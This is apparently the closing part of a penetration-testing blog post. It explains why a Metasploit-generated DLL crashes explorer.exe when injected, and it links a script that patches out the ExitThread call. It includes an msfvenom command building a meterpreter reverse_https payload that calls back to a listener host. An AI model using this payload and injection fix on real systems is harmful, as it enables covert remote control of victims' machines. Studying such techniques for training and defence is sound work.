 ## Results

From the previous section, we can build a hypothesis about what is happening:
- Since we never see the `DLL_PROCESS_DETACH` message when `ExitThread` is called, we can safely assume that `LoadLibrary` never returned. `LoadLibrary` should return when a `DllMain` returns with any value. 
- With the DLL loading/unloading thread stuck in `LoadLibrary`, we can also assume that the thread is also still running. 
- Both `CreateThread` (to load new DLLs) and `ExitProcess` (via the return from the main function) are not executing.  From our research, we know that `ExitThread`, `ExitProcess`, `CreateThread` and `CreateRemoteThread` calls are serialized, meaning only one of them can run within all threads of a process. This suggests some sort of lock that `ExitThread` is keeping.

Research and results show that `ExitThread` is indeed the issue. It also suggests that a lock is holding new threads from executing. Going back to our original question `explorer.exe` typically creates and destructs threads as needed, so locking the thread creation and deletion process would cause it to malfunction and eventually crash.

## Fix

After all this, we concluded that removing `ExitThread`, we would be able to correctly inject the DLL generated by `msfvenom`. For this reason, I created a python3 script which can be run on both a 64-bit and 32-bit DLL. The script looks for the bytes in the DLL that perform the `ExitThread` call and NOPs it out. This script can be found [here](https://gist.github.com/reubensammut/958333cd112b6bbe4883787950fc831d) and can be run using the following command

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 \
	-f dll -o met.dll
python3 remove_exitthread_msf.py met.dll
```

## References
- [PEN-300 Course from OffSec](https://www.offsec.com/courses/pen-300/)
- [metasploit framework](https://www.metasploit.com/)
- [PoC code for this blog post](https://github.com/reubensammut/InjectPoC)
- [DllMain documention on MSDN](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain)
- [DLL template used by metasploit](https://github.com/rapid7/metasploit-framework/blob/d29f5690a172cbe6741bff9165dc2d133c222ecc/data/templates/src/pe/dll/template.c)
- [Dynamic-Link Library Best Practices](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices)
- [CreateRemoteThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
- [Gist to remove the `ExitThread`](https://gist.github.com/reubensammut/958333cd112b6bbe4883787950fc831d)
